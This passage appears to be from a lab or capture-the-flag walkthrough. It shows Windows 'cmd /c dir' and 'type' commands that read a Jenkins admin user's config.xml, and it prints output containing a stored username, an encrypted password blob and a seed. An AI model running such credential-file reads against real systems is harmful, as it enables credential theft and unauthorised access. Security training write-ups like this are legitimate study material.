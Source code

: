 ### After we see what it s in "admin_17207690984073220035" . We type out the file 

```
cmd /c "dir c:\Users\oliver\Appdata\local\jenkins\.jenkins\users\admin_17207690984073220035" 
```


<img width="1747" height="605" alt="image" src="https://github.com/user-attachments/assets/7efa7eb6-d2ec-4ba9-944c-c45ff203d4bc" />


```
cmd /c "type c:\Users\oliver\Appdata\local\jenkins\.jenkins\users\admin_17207690984073220035\config.xml" 
```

```python
<?xml version='1.1' encoding='UTF-8'?>
<user>
  <version>10</version>
  <id>admin</id>
  <fullName>admin</fullName>
  <properties>
    <com.cloudbees.plugins.credentials.UserCredentialsProvider_-UserCredentialsProperty plugin="credentials@2.6.1">
      <domainCredentialsMap class="hudson.util.CopyOnWriteMap$Hash">
        <entry>
          <com.cloudbees.plugins.credentials.domains.Domain>
            <specifications/>
          </com.cloudbees.plugins.credentials.domains.Domain>
          <java.util.concurrent.CopyOnWriteArrayList>
            <com.cloudbees.plugins.credentials.impl.UsernamePasswordCredentialsImpl>
              <id>320a60b9-1e5c-4399-8afe-44466c9cde9e</id>
              <description></description>
              <username>oliver</username>
              <password>{AQAAABAAAAAQqU+m+mC6ZnLa0+yaanj2eBSbTk+h4P5omjKdwV17vcA=}</password>
              <usernameSecret>false</usernameSecret>
            </com.cloudbees.plugins.credentials.impl.UsernamePasswordCredentialsImpl>
          </java.util.concurrent.CopyOnWriteArrayList>
        </entry>
      </domainCredentialsMap>
    </com.cloudbees.plugins.credentials.UserCredentialsProvider_-UserCredentialsProperty>
    <hudson.plugins.emailext.watching.EmailExtWatchAction_-UserProperty plugin="email-ext@2.84">
      <triggers/>
    </hudson.plugins.emailext.watching.EmailExtWatchAction_-UserProperty>
    <hudson.model.MyViewsProperty>
      <views>
        <hudson.model.AllView>
          <owner class="hudson.model.MyViewsProperty" reference="../../.."/>
          <name>all</name>
          <filterExecutors>false</filterExecutors>
          <filterQueue>false</filterQueue>
          <properties class="hudson.model.View$PropertyList"/>
        </hudson.model.AllView>
      </views>
    </hudson.model.MyViewsProperty>
    <org.jenkinsci.plugins.displayurlapi.user.PreferredProviderUserProperty plugin="display-url-api@2.3.5">
      <providerId>default</providerId>
    </org.jenkinsci.plugins.displayurlapi.user.PreferredProviderUserProperty>
    <hudson.model.PaneStatusProperties>
      <collapsed/>
    </hudson.model.PaneStatusProperties>
    <jenkins.security.seed.UserSeedProperty>
      <seed>ea75b5bd80e4763e</seed>
    </jenkins.security.seed.UserSeedProperty>
```